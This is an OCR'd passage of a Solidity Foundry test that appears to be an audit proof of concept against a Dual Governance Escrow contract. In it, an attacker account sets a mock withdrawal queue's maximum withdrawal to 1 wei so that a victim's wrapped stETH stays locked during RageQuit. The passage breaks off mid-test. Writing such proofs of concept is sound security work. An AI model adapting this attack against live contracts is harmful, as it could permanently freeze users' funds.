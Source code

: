 ```solidity

        // 1. Deploy Mock Environment
        stETH = new StETHMock();
        wstETH = new WstETHMock(IStETH(address(stETH)));
        withdrawalQueue = new WithdrawalQueueMock(IERC20(address(stETH)));

        // 2. Deploy Escrow master copy and proxy (following official test patterns)
        masterCopy = new Escrow(
            IStETH(address(stETH)),
            IWstETH(address(wstETH)),
            IWithdrawalQueue(address(withdrawalQueue)),
            IDualGovernance(dualGovernanceAddress),
            100, // minWithdrawalsBatchSize
            MAX_MIN_ASSETS_LOCK_DURATION
        );
        escrow = Escrow(payable(Clones.clone(address(masterCopy))));

        // 3. Initialize the proxy contract
        vm.prank(dualGovernanceAddress);
        escrow.initialize(MIN_ASSETS_LOCK_DURATION);

        // 4. Prepare funds and allowances for the victim
        stETH.mint(victim, VICTIM_DEPOSIT_AMOUNT);
        vm.startPrank(victim);
        stETH.approve(address(wstETH), VICTIM_DEPOSIT_AMOUNT);
        wstETH.wrap(VICTIM_DEPOSIT_AMOUNT);
        wstETH.approve(address(escrow), type(uint256).max);
        vm.stopPrank();

        // 5. Mock the external call to dualGovernance that Escrow depends on
        vm.mockCall(
            dualGovernanceAddress,
            abi.encodeWithSelector(IDualGovernance.activateNextState.selector),
            abi.encode(true)
        );
    }

    function test_Attack_LockFundsByBlockingWithdrawalRequest() public {
        // === Step 1: SETUP - A victim deposits assets and RageQuit is initiated ===
        vm.startPrank(victim);
        uint256 victimWstETHBalance = wstETH.balanceOf(victim);
        escrow.lockWstETH(victimWstETHBalance);
        vm.stopPrank();

        vm.prank(dualGovernanceAddress);
        escrow.startRageQuit(Durations.ZERO, Durations.ZERO);

        console.log("--- SETUP COMPLETE ---");
        console.log("Victim locked assets. Escrow state transitioned to RageQuitEscrow.");
        assertEq(uint(escrow.getEscrowState()), uint(EscrowState.RageQuitEscrow));

        // === Step 2: ATTACK - The attacker maliciously configures the WithdrawalQueue ===
        vm.startPrank(attacker);
        withdrawalQueue.setMaxStETHWithdrawalAmount(1);
        vm.stopPrank();

        console.log("--- ATTACK EXECUTED ---");
        console.log("WithdrawalQueue MAX_STETH_WITHDRAWAL_AMOUNT maliciously set to 1 wei.");

        // === Step 3: VERIFICATION - The withdrawal process fails, locking all funds permanently ===
        console.log("Attempting to process withdrawals batch...");

```